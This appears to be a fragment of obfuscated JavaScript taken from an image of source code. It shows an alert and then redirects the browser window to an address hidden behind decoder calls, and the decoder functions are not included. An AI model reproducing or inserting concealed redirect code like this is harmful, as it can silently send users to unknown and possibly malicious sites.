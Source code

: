alert(_0x32de2a(0x1d9,0x18d,0x1c8,0x212,0x1bf)+_0x32de2a(0x199,0x1b2,0x121,0x127,0x169)+_0xfcb728(0x1f6,0x228,0x1a9,0x19b,0x241)+_0x32de2a(0x176,0x18e,0x126,0x185,0x16e)+_0x305b31(-0x46,-0x3f,-0x8c,-0xc3,-0x79)+_0x32de2a(0x23f,0x1e3,0x1dc,0x218,0x20c)+_0x305b31(-0xb7,-0x101,-0xb5,-0xf6,-0xc9)+_0xfcb728(0x1f5,0x24b,0x20f,0x1f7,0x19e)+_0x32de2a(0x1f6,0x19e,0x1c4,0x180,0x1d5)+_0xfcb728(0x254,0x259,0x247,0x279,0x2a1)+_0x58efbe(0x120,0xf4,0x124,0x130,0xde)+_0xfcb728(0x1ef,0x1b1,0x212,0x1fe,0x22a)),window[_0x305b31(-0x33,-0x9a,-0x3c,-0x8e,-0xe)+_0x2e85cb(0x356,0x327,0x352,0x34f,0x353)][_0xfcb728(0x1db,0x1c7,0x200,0x1d1,0x218)]=_0x32de2a(0x176,0x177,0x1f4,0x226,0x1ce)+_0x305b31(-0x70,0x3d,-0x18,-0x41,-0x6c)+_0xfcb728(0x26e,0x285,0x263,0x20d,0x266)+_0x32de2a(0x1c2,0x1d8,0x188,0x1e6,0x1ad)+_0x32de2a(0x1d0,0x1dd,0x17a,0x195,0x1c2)+_0x58efbe(0xe5,0xc1,0x130,0xea,0x141);
